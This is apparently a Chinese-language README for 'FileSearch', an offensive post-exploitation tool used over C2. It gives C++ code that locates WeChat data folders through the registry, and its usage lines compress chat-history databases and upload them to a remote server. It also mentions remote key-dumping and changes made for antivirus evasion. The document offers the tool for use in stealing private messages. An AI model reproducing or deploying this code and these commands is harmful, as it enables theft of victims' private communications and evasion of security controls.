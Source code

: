 # FileSearch

## 更新

### v1.2(暂不开源)

实战中发现全盘查找在c2中非常拉跨，查找等待时间较长，且盘符越多越慢

1、直接读取注册表的键值，wxid关键字匹配拼接路径


```
void getPath(char *dbpath)
{
	char cmd_command[256] = { 0 };
	char regname[] = "Software\\Microsoft\\Windows\\CurrentVersion\\Explorer\\Shell Folders";
	HKEY hKey;
	DWORD dwType = REG_BINARY;
	REGSAM mode = KEY_READ;
	DWORD length = 256;
	int ret = RegOpenKey(HKEY_CURRENT_USER, regname, &hKey);

	ret = RegQueryValueEx(hKey, "Personal", 0, &dwType, (LPBYTE)dbpath, &length);
	strcat(dbpath, "\\WeChat Files");
	//cout << dbpath << endl;

	if (ret == 0) {
		RegCloseKey(hKey);
	}
	else {
		printf("failed to open regedit.%d\n", ret);
	}
}

```

```
void getFileNames(string path, vector<string>& files)
{
	intptr_t hFile = 0;
	//文件信息
	struct _finddata_t fileinfo;
	string p;
	string::size_type idx;

	if ((hFile = _findfirst(p.assign(path).append("\\*").c_str(), &fileinfo)) != -1)
	{
		do
		{
			//如果是目录,匹配文件夹
			if ((fileinfo.attrib & _A_SUBDIR))
			{
				if (strstr(fileinfo.name, "wxid") != NULL)
					files.push_back(p.assign(path).append("\\").append(fileinfo.name));
			}

		} while (_findnext(hFile, &fileinfo) == 0);
		_findclose(hFile);
	}
}

```
2、传输改成socket协议，支持大文件上传，效率很快，需要启动个Server socket
![](https://cdn.nlark.com/yuque/0/2022/png/262397/1665465880719-3ec78718-3e6e-4ac8-87a1-d2751bfdaabf.png)

3、参考https://github.com/Ormicron/Sharp-dumpkey 

远程拉取基址，考虑到免杀性改成了C++代码，
![](https://cdn.nlark.com/yuque/0/2022/png/262397/1665469015290-f07178fb-95a6-4d35-9161-bbf2d4a7da13.png)



### v1.1
服务端：python2 http_put.py 80 path 

（win10自带curl.exe，其他系统可以上传一个或者引用socket库）

1、新增全盘查找微信聊天记录db文件并压缩上传到指定服务器

2、压缩本地文件并上传到指定服务器

3、指定盘查找指定文件后缀并输出
```
[+] eg: Filesearch default baidu.com
[+] eg: Filesearch upload C:\MSG0.db baidu.com
[+] eg: Filesearch search C:\ docx

```
## v1.0

```
System Drive are:C:\D:\
Command:FileSearch.exe Drive Keyword
Example:FileSearch.exe C:\ docx
```

![](https://cdn.nlark.com/yuque/0/2020/png/262397/1598583458455-d71cecb3-ef4e-49de-b33e-fe81c55c012b.png)
